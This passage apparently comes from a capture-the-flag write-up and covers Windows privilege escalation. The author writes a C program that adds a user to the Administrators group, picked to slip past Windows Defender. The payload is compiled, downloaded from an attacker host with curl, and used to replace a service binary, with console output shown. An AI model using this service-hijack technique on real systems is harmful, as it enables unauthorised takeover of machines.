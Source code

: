 Since we have full control over the service binary, we can replace it with a malicious executable. But due to Windows Defender running, we won't be able to easily use `msfvenom` to generate our payload.

Instead, I chose to create an executable that will add the `tyler` user to the `Administrators` local group.

Writing a very simple C code that does this.

```c
#include <stdlib.h>

int main() {
  system("cmd.exe /c net localgroup Administrators tyler /add");
  return 0;
}
```
{: file="payload.c"}

Compiling it into an executable for `Windows`.

```console
$ x86_64-w64-mingw32-gcc-win32 payload.c -o payload.exe
```

Stopping the service, replacing the service binary with our payload, and starting it again.

```console
tyler@HACKSMARTERSEC C:\Program Files (x86)\Spoofer>sc stop spoofer-scheduler

SERVICE_NAME: spoofer-scheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x2
        WAIT_HINT          : 0x0

tyler@HACKSMARTERSEC C:\Program Files (x86)\Spoofer>move spoofer-scheduler.exe spoofer-scheduler.exe.bak
        1 file(s) moved.

tyler@HACKSMARTERSEC C:\Program Files (x86)\Spoofer>curl http://10.11.72.22/payload.exe -o spoofer-scheduler.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  112k  100  112k    0     0   112k      0  0:00:01  0:00:01 --:--:-- 78215

tyler@HACKSMARTERSEC C:\Program Files (x86)\Spoofer>sc start spoofer-scheduler
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

Now, after a `re-login`, we see that our payload was run and the `tyler` user is a member of the `Administrators` group.
